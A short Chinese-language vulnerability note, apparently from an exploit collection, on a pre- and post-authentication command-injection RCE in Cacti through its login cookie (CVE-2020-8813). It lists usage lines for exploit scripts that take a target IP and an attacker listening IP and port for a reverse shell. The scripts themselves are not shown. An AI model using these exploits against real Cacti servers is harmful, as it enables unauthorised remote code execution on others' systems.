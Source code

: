 ## 漏洞概述

漏洞点在登录的`Cookie`变量`Cacti`的值，将其改为系统命令造成RCE；

但是操作Cookie值会遇到身份验证问题，因此需开启访客页面，配合利用。

## 影响范围

```http
Cacti <= 1.28
```

## POC

暂无。编写nuclei的poc!!!

## EXP

**Pre-Auth RCE**
前提：开启来宾实时图查看权限 graph_realtime.php?action=init 中包含poller_realtime.php

```
python Cacti-preauth-rce.py x.x.x.x ListeningIP ListeningPORT(VPS监听)
```

**Post-Auth RCE**
前提：已知一个账户

```
python Cacti-postauth-rce.py x.x.x.x admin pass ListeningIP ListeningPORT
```

## 参考链接

https://shells.systems/cacti-v1-2-8-authenticated-remote-code-execution-cve-2020-8813/